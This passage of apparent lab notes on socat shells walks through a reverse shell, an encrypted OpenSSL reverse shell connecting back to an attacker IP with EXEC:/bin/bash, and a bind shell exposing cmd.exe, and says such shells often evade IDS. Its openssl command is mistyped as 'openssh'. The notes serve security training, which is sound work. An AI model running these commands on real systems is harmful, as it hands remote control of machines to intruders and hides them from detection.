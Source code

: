  let's see it in action.

As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:
![socat in action](https://i.imgur.com/etAuYzz.png)

* Note that the socat shell is fully interactive, allowing us to use interactive commands such as SSH. This can then be further improved by setting the stty values as seen in the previous task, which will let us use text editors such as Vim or Nano.
* If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding -d -d into the command. This is very useful for experimental purposes, but is not usually necessary for general use.

#### Socat Encrypted Shells ####

* One the main benefits of socat is that it is capable of creating encrypted shells which can't be spied on unless you have a decryption key, and are often able to bypass IDS systems.
* When working with encrypted shells, we would use `OPENSSL` instead of `TCP`.
* First we are gonna need to generate a certificate in order to use encrypted shells.

This is how to do it on our attacker machine;

```ZSH
openssh req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

This command creates a 2048 bit RSA key with machine cert file, self signed and valid for use for one year.

* When you run this command it will ask you to fill out a form which you can leave blank.

When you need to merge the two created files into a single `.pem` file.

```ZSH
cat shell.key shell.crt > shell.pem
```

* Now when we set our reverse shell we use;

```ZSH
socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 -
```

* This sets up an OPENSSL listener using our generated certificate. verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognized authority. Please note that the certificate must be used on whichever device is listening.

To connect back, we would use:

```ZH
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

The same technique would apply for a bind shell:

Target:

```ZSH
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```
